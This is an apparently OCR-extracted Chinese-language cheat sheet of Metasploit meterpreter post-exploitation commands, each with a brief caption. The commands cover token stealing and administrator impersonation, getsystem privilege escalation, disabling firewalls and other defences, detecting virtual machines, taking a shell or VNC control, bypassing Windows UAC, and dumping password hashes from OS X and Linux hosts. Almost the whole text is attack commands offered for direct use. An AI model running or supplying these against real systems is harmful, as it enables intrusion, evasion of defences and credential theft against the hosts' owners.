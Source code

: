 meterpreter>kayscan_stop

使用匿名方式来假冒管理员：

meterpreter>use incognito

meterpreter>list_tokens -u

meterpreter>use priv

meterpreter>getsystem

meterpreter>list_tokens -u

meterpreter>impersonate_token IHAZSECURITY\\Admininistrator

查看目标主机都采取了那些防范保护措施，列出帮助菜单，关闭防火墙以及其它我们发现的保护措施。

meterpreter>run getcountermeasure

meterpreter>run getcountermeasure -h

meterpreter>run getcountermeasure -d -k

识别被控制的主机是否是一台虚拟机。

meterpreter>run checkvm

在一个meterpreter会话界面中使用cmd shell。

meterpreter>shell

获取目标主机的图形界面（VNC）.

meterpreter>run vnc

使正在运行的meterpreter界面在后台运行。

meterpreter>background

绕过windows的用户账户控制（UAC）机制。

meterpreter>run post/windows/escalate/bypassuac

导出苹果OS-X系统的口令哈希值。

meterpreter>run post/osx/gather/hashdump

导出linux系统的口令哈希值。

meterpreter>run post/linux/gather/hashdump
